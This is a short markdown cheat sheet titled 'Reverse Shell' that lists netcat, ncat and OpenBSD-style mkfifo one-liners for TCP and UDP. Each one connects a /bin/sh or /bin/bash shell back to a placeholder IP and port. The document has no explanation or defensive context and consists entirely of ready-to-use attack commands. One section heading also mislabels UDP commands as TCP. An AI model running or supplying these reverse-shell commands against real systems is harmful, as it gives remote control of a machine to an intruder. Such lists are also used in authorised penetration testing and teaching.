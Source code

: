 # Reverse Shell

## 01 - Traditional GNU Variant

### 1.1 - TCP Protocol

```
nc <IP> <PORT> -e /bin/sh

nc <IP> <PORT> -e /bin/dash

nc <IP> <PORT> -e /bin/bash
```

### 1.2 - UDP Protocol

```
nc -u <IP> <PORT> -e /bin/sh

nc -u <IP> <PORT> -e /bin/dash

nc -u <IP> <PORT> -e /bin/bash
```

## 02 - Ncat Variant

### 2.1 - TCP Protocol

```
ncat <IP> <PORT> -e /bin/bash
```

### 2.2 - UDP Protocol

```
ncat -u <IP> <PORT> -e /bin/bash
```

## 03 - OpenBSD Variant

### 3.1 - TCP Protocol

```
mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc <IP> <PORT> > /tmp/f; rm /tmp/f

mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc <IP> <PORT> > /tmp/f; rm /tmp/f
```

### 3.2 - TCP Protocol

```
mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc -u <IP> <PORT> > /tmp/f; rm /tmp/f

mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -u <IP> <PORT> > /tmp/f; rm /tmp/f
```